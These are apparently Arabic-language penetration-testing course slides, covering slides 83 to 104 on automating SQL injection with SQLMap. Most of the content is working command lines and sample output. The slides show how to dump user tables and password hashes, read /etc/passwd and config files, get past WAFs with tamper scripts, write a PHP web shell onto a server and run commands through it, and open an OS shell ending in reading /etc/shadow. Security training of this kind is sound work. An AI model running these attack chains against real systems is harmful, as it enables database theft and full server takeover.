



# 🎓 الجزء الخامس: SQLMap Essentials — أساسيات الأتمتة
## Slides 83 → 104

---

## 📌 Slide 83: SQL Injection Attack Automation with SQLMap
### عنوان القسم: أتمتة هجمات SQL Injection باستخدام SQLMap

دلوقتي بعد ما اتعلمت تلاقي وتستغل SQLi **يدوياً**، هندخل في **الأتمتة**! 🤖

> **SQLMap** هي **أقوى أداة مفتوحة المصدر** لأتمتة اكتشاف واستغلال ثغرات SQL Injection. بتعمل كل اللي اتعلمناه لحد دلوقتي — بس **تلقائي وأسرع بمراحل**!

---

## 📌 Slide 84: What is SQLMap?

> **SQLMap** هي أداة اختبار اختراق مفتوحة المصدر مكتوبة بـ Python. بتأتمت عملية اكتشاف واستغلال ثغرات SQL Injection والسيطرة على سيرفرات قواعد البيانات.

### الخصائص الرئيسية:

| الخاصية | الشرح |
|---------|-------|
| **مفتوحة المصدر** | مجانية تماماً — كود المصدر متاح |
| **Python-based** | مكتوبة بـ Python — بتشتغل على أي نظام |
| **Full SQLi Support** | بتدعم كل أنواع SQLi بدون استثناء |
| **Multi-DBMS** | بتدعم MySQL, MSSQL, Oracle, PostgreSQL, SQLite, وغيرهم |
| **OS Shell** | بتقدر تفتح Shell على السيرفر |
| **File Read/Write** | بتقرأ وتكتب ملفات على السيرفر |

### أنواع الـ SQLi اللي بتدعمها:
```
SQLMap بتدعم 6 تقنيات:
├── 1. Boolean-Based Blind
├── 2. Time-Based Blind
├── 3. Error-Based
├── 4. Union-Based
├── 5. Stacked Queries
└── 6. Out-of-Band (OOB)
```

---

## 📌 Slide 85: SQLMap Features Overview

### الإمكانيات الكاملة:



### بالمصري كده:
SQLMap هي زي إنك عندك **Pentester آلي** بيعمل كل حاجة — من الاكتشاف لحد السيطرة الكاملة. بتديله URL وهو بيعمل الباقي!

---

## 📌 Slide 86: SQLMap Installation

### التثبيت:

```bash
# الطريقة 1: موجودة في Kali Linux بالفعل!
sqlmap --version

# الطريقة 2: من GitHub
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --version

# الطريقة 3: عبر pip
pip3 install sqlmap
```

> **💡 في Kali Linux:** SQLMap موجودة **جاهزة** — مش محتاج تنزلها. جرب `sqlmap -h` وابدأ!

---

## 📌 Slide 87: SQLMap Basic Usage

### الاستخدام الأساسي:

```bash
# الأمر الأساسي:
sqlmap -u "http://target.com/page.php?id=1"

# -u = الـ URL مع الـ Parameter اللي عايز تختبره
```

### أهم الـ Flags:

| Flag | الوظيفة | المثال |
|------|---------|--------|
| `-u` | تحديد الـ URL | `-u "http://target.com/page?id=1"` |
| `--dbs` | عرض الداتابيزات | `sqlmap -u URL --dbs` |
| `--tables` | عرض الجداول | `sqlmap -u URL -D dbname --tables` |
| `--columns` | عرض الأعمدة | `sqlmap -u URL -D db -T table --columns` |
| `--dump` | سحب البيانات | `sqlmap -u URL -D db -T table --dump` |
| `-p` | تحديد Parameter معين | `-p id` |
| `--batch` | إجابة تلقائية على كل الأسئلة | `--batch` |

---

## 📌 Slide 88: SQLMap - Step by Step

### المنهجية مع SQLMap:



---

## 📌 Slide 89: SQLMap - Enumeration Commands

### أوامر الـ Enumeration الأساسية:

```bash
# 1. اكتشاف الثغرة:
sqlmap -u "http://target.com/page.php?id=1"

# 2. عرض كل الداتابيزات:
sqlmap -u "http://target.com/page.php?id=1" --dbs

# 3. اختيار داتابيز وعرض الجداول:
sqlmap -u "http://target.com/page.php?id=1" -D dvwa --tables

# 4. اختيار جدول وعرض الأعمدة:
sqlmap -u "http://target.com/page.php?id=1" -D dvwa -T users --columns

# 5. سحب البيانات من الجدول:
sqlmap -u "http://target.com/page.php?id=1" -D dvwa -T users --dump

# 6. سحب أعمدة محددة بس:
sqlmap -u "http://target.com/page.php?id=1" -D dvwa -T users -C "user,password" --dump
```

---

## 📌 Slide 90: SQLMap - Target Options

### طرق تحديد الهدف:

| الطريقة | الشرح | المثال |
|---------|-------|--------|
| `-u URL` | URL مباشر مع Parameters | `-u "http://site.com/?id=1"` |
| `-r FILE` | قراءة Request من ملف (من Burp) | `-r request.txt` |
| `--data` | POST data | `--data "user=admin&pass=test"` |
| `-l FILE` | قراءة من Burp log | `-l burp_log.txt` |
| `--crawl` | زحف تلقائي على الموقع | `--crawl=3` |

### الطريقة الأقوى — من Burp Suite:

```bash
# 1. في Burp: Right-click → Copy to file → request.txt
# 2. في Terminal:
sqlmap -r request.txt

# ده أفضل طريقة لأنه بيشمل كل الـ Headers و Cookies!
```

> **🔴 من واقع الـ Pentesting:** **دايماً** استخدم `-r` مع ملف Request من Burp. ده أدق من `-u` لأنه بيشمل كل الـ Headers والـ Cookies والـ Authentication tokens.

---

## 📌 Slide 91: SQLMap - Request Options

### خيارات الـ Request:

```bash
# تحديد Method:
sqlmap -u URL --method=PUT

# إضافة Headers:
sqlmap -u URL --headers="X-Forwarded-For: 127.0.0.1\nReferer: http://trusted.com"

# إضافة Cookies:
sqlmap -u URL --cookie="PHPSESSID=abc123; security=low"

# User-Agent مخصص:
sqlmap -u URL --user-agent="Mozilla/5.0 (Windows NT 10.0; rv:91.0)"

# Random User-Agent (لتجنب الحجب):
sqlmap -u URL --random-agent

# استخدام Proxy (Burp):
sqlmap -u URL --proxy="http://127.0.0.1:8080"
```

---

## 📌 Slide 92: SQLMap - Enumeration Options

### خيارات الاستكشاف:

```bash
# معلومات عن الداتابيز:
--current-user     # اليوزر الحالي
--current-db       # الداتابيز الحالية
--hostname         # اسم الهوست
--is-dba           # هل اليوزر Admin?
--users            # كل اليوزرات
--passwords        # هاشات الباسوردات
--privileges       # صلاحيات كل يوزر
--roles            # أدوار اليوزرات
```

### مثال كامل:
```bash
sqlmap -u "http://target.com/?id=1" \
  --current-user \
  --current-db \
  --is-dba \
  --batch
  
# Output:
# current user: 'root@localhost'
# current database: 'dvwa'
# current user is DBA: True
```

> لو `is-dba = True` → اليوزر بتاع الداتابيز هو **root**! ده معناه إنك ممكن تقرأ/تكتب ملفات وتنفذ أوامر على السيرفر!

---

## 📌 Slide 93: SQLMap - Data Extraction

### سحب البيانات:

```bash
# سحب جدول كامل:
sqlmap -u URL -D dvwa -T users --dump

# سحب أعمدة محددة:
sqlmap -u URL -D dvwa -T users -C "user,password" --dump

# سحب بشرط (WHERE):
sqlmap -u URL -D dvwa -T users --dump --where="user='admin'"

# سحب أول 5 صفوف:
sqlmap -u URL -D dvwa -T users --dump --start=1 --stop=5

# سحب كل شيء في الداتابيز:
sqlmap -u URL -D dvwa --dump-all

# ⚠️ تحذير: dump-all بيسحب كل حاجة — ممكن ياخد وقت طويل!
```

---

## 📌 Slide 94: SQLMap - Technique Options

### تحديد تقنيات الاختبار:

```bash
# تحديد تقنيات معينة:
sqlmap -u URL --technique=BEUST

# B = Boolean-Based Blind
# E = Error-Based
# U = Union-Based
# S = Stacked Queries
# T = Time-Based Blind
```

### أمثلة:
```bash
# Error-Based فقط (سريع):
sqlmap -u URL --technique=E

# Union-Based فقط:
sqlmap -u URL --technique=U

# Blind فقط (Boolean + Time):
sqlmap -u URL --technique=BT

# كل التقنيات (الافتراضي):
sqlmap -u URL --technique=BEUST
```

---

## 📌 Slide 95: SQLMap - Optimization

### تسريع SQLMap:

```bash
# المستوى والمخاطرة:
--level=5     # مستوى الاختبار (1-5): المستوى 5 بيختبر Headers و Cookies
--risk=3      # المخاطرة (1-3): المستوى 3 بيستخدم OR-based payloads

# التسريع:
--threads=10  # عدد الـ Threads المتوازية
-o            # تفعيل كل خيارات التحسين
--batch       # إجابة تلقائية (مش بيسأل)

# تقليل الوقت:
--time-sec=2  # وقت الانتظار لـ Time-Based (الافتراضي 5)
```

### مثال محسّن:
```bash
sqlmap -u "http://target.com/?id=1" \
  --level=3 \
  --risk=2 \
  --threads=10 \
  --batch \
  -o \
  --dbs
```

---

## 📌 Slide 96: SQLMap - Level and Risk Explained

### شرح الـ Level والـ Risk:

| Level | إيه بيختبر |
|-------|-----------|
| **1** (Default) | GET و POST parameters فقط |
| **2** | + Cookies |
| **3** | + User-Agent و Referer headers |
| **4** | + المزيد من Payloads |
| **5** | + كل Headers + أكبر عدد Payloads |

| Risk | إيه بيعمل |
|------|----------|
| **1** (Default) | اختبارات آمنة فقط |
| **2** | + Time-Based heavy queries |
| **3** | + OR-Based payloads (**⚠️ ممكن تعدّل بيانات!**) |

> **⚠️ تحذير مهم:** `--risk=3` بيستخدم `OR` payloads اللي ممكن **تعدّل بيانات فعلية في الداتابيز**! استخدمه بس في بيئات الاختبار.

---

## 📌 Slide 97: SQLMap - OS Shell

### الوصول لنظام التشغيل:

```bash
# فتح Shell على السيرفر:
sqlmap -u URL --os-shell

# تنفيذ أمر محدد:
sqlmap -u URL --os-cmd="whoami"

# رفع ملف على السيرفر:
sqlmap -u URL --file-write="local_file.php" --file-dest="/var/www/html/shell.php"

# قراءة ملف من السيرفر:
sqlmap -u URL --file-read="/etc/passwd"
```

### متى بيشتغل الـ OS Shell؟



---

## 📌 Slide 98: SQLMap - File Operations

### قراءة وكتابة الملفات:

```bash
# قراءة ملف من السيرفر:
sqlmap -u URL --file-read="/etc/passwd"
sqlmap -u URL --file-read="/var/www/html/config.php"

# كتابة ملف (Web Shell):
sqlmap -u URL --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

### مثال عملي — رفع Web Shell:
```bash
# 1. اعمل ملف PHP Shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. ارفعه على السيرفر:
sqlmap -u URL --file-write="shell.php" --file-dest="/var/www/html/cmd.php"

# 3. استخدمه:
curl "http://target.com/cmd.php?cmd=whoami"
# Output: www-data
```

> **🔴 من واقع الـ Pentesting:** لو قدرت تعمل File Write على السيرفر — ده معناه **RCE كامل**! ده يتصنف **Critical** في أي تقرير.

---

## 📌 Slide 99: SQLMap - Tamper Scripts

### تجاوز الحمايات (WAF Bypass):

> الـ **Tamper Scripts** بتعدل الـ Payloads عشان تتجاوز الـ WAF أو الفلترة.

```bash
# استخدام Tamper script:
sqlmap -u URL --tamper=space2comment

# أكتر من Tamper:
sqlmap -u URL --tamper=space2comment,between,randomcase
```

### أشهر الـ Tamper Scripts:

| Script | الوظيفة |
|--------|---------|
| `space2comment` | يستبدل المسافات بتعليقات `/**/` |
| `between` | يستبدل `>` بـ `NOT BETWEEN 0 AND` |
| `randomcase` | يغير حالة الحروف عشوائياً `SeLeCt` |
| `charencode` | يحول الحروف لـ URL Encoding |
| `base64encode` | يعمل Base64 للـ Payload |
| `equaltolike` | يستبدل `=` بـ `LIKE` |

---

## 📌 Slide 100: SQLMap - POST Requests

### التعامل مع POST Requests:

```bash
# الطريقة 1: --data flag
sqlmap -u "http://target.com/login.php" \
  --data="username=admin&password=test" \
  -p username

# الطريقة 2: من ملف Request (الأفضل)
sqlmap -r login_request.txt -p username

# الطريقة 3: مع Cookies
sqlmap -u "http://target.com/dashboard.php" \
  --cookie="PHPSESSID=abc123" \
  --data="search=test" \
  -p search
```

---

## 📌 Slide 101: SQLMap - Session Management

### إدارة الـ Sessions:

```bash
# SQLMap بيحفظ الـ Session تلقائي:
# الملفات في: ~/.local/share/sqlmap/output/

# استكمال Session سابق:
sqlmap -u URL --dbs
# SQLMap هيسألك: "resume from previous session?"

# مسح الـ Session السابق:
sqlmap -u URL --flush-session

# حفظ Output في ملف:
sqlmap -u URL --output-dir="/path/to/output"
```

---

## 📌 Slide 102: SQLMap - Useful Flags Summary

### ملخص أهم الـ Flags:

| الفئة | Flag | الوصف |
|-------|------|-------|
| **الهدف** | `-u URL` | تحديد الـ URL |
| | `-r FILE` | قراءة Request من ملف |
| | `-p PARAM` | تحديد Parameter معين |
| **الاستكشاف** | `--dbs` | عرض الداتابيزات |
| | `--tables` | عرض الجداول |
| | `--columns` | عرض الأعمدة |
| | `--dump` | سحب البيانات |
| **التحسين** | `--batch` | إجابة تلقائية |
| | `--threads=N` | عدد الـ Threads |
| | `--level=N` | مستوى الاختبار (1-5) |
| | `--risk=N` | مستوى المخاطرة (1-3) |
| **متقدم** | `--os-shell` | Shell على السيرفر |
| | `--file-read` | قراءة ملف |
| | `--tamper` | تجاوز WAF |
| | `--proxy` | Proxy (Burp) |

---

## 📌 Slide 103: Demo - SQLMap Basic Usage

### ديمو عملي: SQLMap من الصفر

```bash
# 1. الاكتشاف:
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=abc123; security=low" \
  --batch

# Output:
# [INFO] GET parameter 'id' is vulnerable
# Type: boolean-based blind
# Type: error-based
# Type: time-based blind
# Type: UNION query

# 2. عرض الداتابيزات:
sqlmap -u URL --cookie=COOKIE --dbs --batch
# [*] dvwa
# [*] information_schema

# 3. عرض الجداول:
sqlmap -u URL --cookie=COOKIE -D dvwa --tables --batch
# [*] guestbook
# [*] users

# 4. سحب الـ Users:
sqlmap -u URL --cookie=COOKIE -D dvwa -T users --dump --batch
# +--------+----------------------------------+
# | user   | password                         |
# +--------+----------------------------------+
# | admin  | 5f4dcc3b5aa765d61d8327deb882cf99 |
# | gordonb| e99a18c428cb38d5f260853678922e03 |
# +--------+----------------------------------+
# SQLMap بيسألك لو عايز يكسر الـ Hash — قول Yes!
```

---

## 📌 Slide 104: Demo - SQLMap Advanced Usage

### ديمو متقدم: SQLMap لحد الـ OS Shell

```bash
# 1. التحقق من صلاحيات اليوزر:
sqlmap -u URL --cookie=COOKIE --is-dba --batch
# current user is DBA: True ← مبروك!

# 2. قراءة ملف من السيرفر:
sqlmap -u URL --cookie=COOKIE --file-read="/etc/passwd" --batch
# [INFO] the back-end DBMS operating system is Linux
# root:x:0:0:root:/root:/bin/bash
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

# 3. فتح OS Shell:
sqlmap -u URL --cookie=COOKIE --os-shell --batch
# os-shell> whoami
# www-data
# os-shell> id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
# os-shell> cat /etc/shadow
# ...
```

> **🔴 من واقع الـ Pentesting:** من SQLi بسيطة → لحد Shell كامل على السيرفر! ده بالظبط اللي بيحصل في Pentests الحقيقية. SQLMap بيحول ثغرة واحدة لسيطرة كاملة!

---

## 🎯 ملخص الجزء الخامس

| الموضوع | الشرح | الأهمية |
|---------|-------|---------|
| **SQLMap** | أداة أتمتة SQLi مفتوحة المصدر | أقوى أداة موجودة |
| **Basic Usage** | `-u URL --dbs --tables --dump` | كافي لمعظم الحالات |
| **-r flag** | قراءة Request من Burp | أدق من `-u` |
| **Level/Risk** | مستوى الاختبار والمخاطرة | Level 3+ بيختبر Cookies و Headers |
| **--os-shell** | Shell على السيرفر | أخطر ميزة |
| **Tamper Scripts** | تجاوز WAF | مهم للـ Real-world targets |

### 🔧 أهم الـ Key Takeaways:

```
✅ SQLMap بتدعم كل أنواع SQLi: Boolean, Error, Union, Time, Stacked, OOB
✅ دايماً استخدم -r مع ملف Request من Burp
✅ --batch عشان تتجنب الأسئلة
✅ --level=3 عشان تختبر Cookies و Headers
✅ لو is-dba = True → جرب --os-shell!
✅ Tamper scripts لتجاوز WAF
✅ SQLMap بيحفظ الـ Session — تقدر تكمل لاحقاً
```

> 📝 **الجزء الجاي:** هندخل في **SQLMap المتقدمة** — Tamper Scripts بالتفصيل، WAF Evasion، والـ Labs العملية! 🛠️
